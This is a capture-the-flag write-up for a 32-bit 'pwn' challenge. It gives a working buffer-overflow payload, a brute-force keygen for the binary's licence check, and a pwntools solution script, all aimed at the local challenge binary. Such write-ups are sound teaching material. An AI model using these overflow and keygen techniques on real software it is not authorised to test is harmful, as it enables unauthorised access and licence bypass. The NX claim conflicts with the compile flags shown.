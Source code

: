 ## Challenge Name
-  Alien Portal ??
## Challenge Difficulty
- Medium
## Challenge Category
- pwn 
## Challenge Description
The fate of humanity rests in your hands. We've managed to infiltrate an alien login portal, and we believe that they're hiding a flag in there. Can you help us get in?



# Writeup
SHA256          F5B41336F1358289384582700D842DD5869AD62E19FF79B35FCF23EF633ACC83      vuln.exe
- The challenge is a 32-bit binary with no protections enabled (NX, ASLR, PIE, Stack Canary)
- Compile the binary with:
```
gcc -fno-stack-protector -z noexecstack -no-pie -m32 -o <challenge_name> vuln.c
```
- Ensure that the hash of the binary matches the hash provided 
- The challenge is a simple buffer overflow exploit to overwrite a variable on the stack followed by reversing the key generation algorithm and making a keygen
- Buffer Overflow (dynamic analysis)
    - use any dynamic analysis tool (gdb, redare ...) to obtain the exact number of padding to overwrite a strcmp variable
    - you can do this by checking the values of stack variables during each run of the program
    - after obtaining the number of padding, you will be able to control the exact value of the variable 
    ```python
    from pwn import *
    io = process("./test")
    PAYLOAD = 'A' * 74 + chr(1)
    ```
- Keygen (static analysis)
    - after passing the first stage of login, the participant will be told that there is a 2-factor authentication which requires a license/secret code
    - using static analysis(ghidra, ida ...), you can reverse engineer the key-checking algorithm and write a key generator
    ```python
    import random
    def encrypt_key(key):
        length_key = len(key)
        sum_key = 0
        for letter in key:
            sum_key += ord(letter)
        return sum_key * length_key

    while 1:
        key = ""
        for i in range(4):
            key += random.choice("abcdefghijklmnopqrstuvwxyz")
            if(encrypt_key(key) == 1804):
                print(key)
    ```
    - then you can pipe the key into the challenge and obtain your flag
# solution
```python
from pwn import *
io = process("./test")
# part 1
PAYLOAD = 'A' * 74 + chr(1)
# part 2
key = "yujk" 
io.sendline(PAYLOAD)
io.recvuntil(":")
io.sendline(key)
io.interactive()
```

